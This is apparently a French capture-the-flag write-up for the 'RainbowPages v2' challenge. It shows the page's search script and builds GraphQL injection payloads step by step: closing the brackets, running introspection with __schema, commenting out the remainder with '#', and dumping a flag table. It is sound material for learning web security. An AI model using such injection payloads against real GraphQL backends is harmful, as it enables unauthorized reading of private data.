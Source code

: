 # <center>RainbowPages v2</center>


<center>

![](./RB.png)

</center>

On arrive donc sur cette page

![](./RB1.png)

Dont le code source contient le script 

    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa(searchInput);
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>

Vu la requête de la première version du challenge, on peut deviner celle de celui-ci qui devrait ressembler à ```{ allCooks (filter: {or: [{firstname: {like: "%input%"}}, {lastname: {like: "%input%"}}])} { nodes { firstname, lastname, speciality, price}}```

On essaye d'injecter notre requête comme pour le chall précedent pour lister tous les champs l'aide du payload (toujours mis en base 64 par la suite) :

    {
     __schema {
        types {
        name
        }
     }
    }

Mais ...

![](./RB2.png)
Eh oui, ce serait trop facile sinon.<br>
Cette erreur est présente car nous ne sommes simplement pas sorti des champs de la requête, il nous suffit donc de sortir des champs.
<br>Pour sortir des champs il faut refermer tous les '(', '[', '{' ouverts au début pour après injecter notre requête.

```a%"}}]})``` cet input referme tous les champs ouverts, ensuite il faut mettre les nodes pour la cohérence de la requête ```{ nodes { firstname, lastname, speciality, price }}```. Avec ça nous sommes bons, maintenant nous pouvons mettre notre payload, ici ```__schema{types{name}}}```.
<br>
Mais la requête ne va pas marcher si celle-ci comptabilise déjà celle de base :/, c'est pour ça que nous avons juste à mettre un petit '#' à la fin de notre requête, ce qui va faire que tous ce qui se situera après notre payload (sur la même ligne) sera mis en commentaire et ne sera donc pas pris en compte.

Ce qui nous donne comme requête finale :

    a%"}}]}){ nodes { firstname, lastname, speciality, price }} __schema{types{name}}}#


![](./RB3.png)

On arrive à remarquer plusieurs champs intéressants tel que FlagNotTheSameTableName, checkons un peu ce qu'elle contient à l'aide de cette requête :

    a%"}}]}) { nodes { firstname, lastname, speciality, price }}allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}}#

![](./RB4.png)

Ah bah il suffisait de regarder ^^'